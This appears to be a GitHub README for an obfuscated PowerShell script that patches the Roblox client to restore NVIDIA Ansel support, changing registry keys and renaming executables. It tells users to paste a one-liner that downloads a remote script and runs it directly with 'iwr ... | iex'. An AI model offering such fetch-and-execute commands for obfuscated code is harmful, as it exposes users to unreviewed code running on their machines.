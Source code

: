Ansel Builder for Roblox

This is a powershell script that uses your current roblox client and re-builds it with some old files from the last known version where NVIDIA Ansel was supported.

## What does this script do?

- It downloads an older build of Roblox (around 90MB) and merges it with your current client.
- Renames RobloxPlayerBeta.exe to Minecraft.exe for Ansel/Game Filter compatibility.
- Changes registry keys to open Roblox from the browser
- Restores Desktop/Program Shortcuts for Roblox

## How do I run the file?

__Download the .ps1 file attached, then right click on it and "Run with Powershell"__

**OR** 

__Run the code using Powershell__
- __**Open Windows Powershell, paste this code and hit Enter.**__
```powershell -c "iwr https://github.com/chrowmiee/NVIDIABuild/releases/download/archive/NVIDIA.ps1 | iex"
```

**⚠️  Do not close the script while it's extracting! **
 This may corrupt your current client, and you'll have to reinstall Roblox.

**❌   Close Roblox before running the script.**
Make sure Roblox is fully closed, check your Task Manager and end all processes; otherwise an error will pop-up. 

**NVIDIA ONLY** 
As always, this uses NVIDIA Ansel for Windows, and will not be supported by any non-NVIDIA GPUs.

✅ **The code is heavily obfuscated because I don't want people to modify the code and take my name taken out of the credits, thank you for understanding.**

This is a very robust and hacky solution, probably won't work in the future.
If you're having any issues with the script, please DM me @ chrowmii for support.

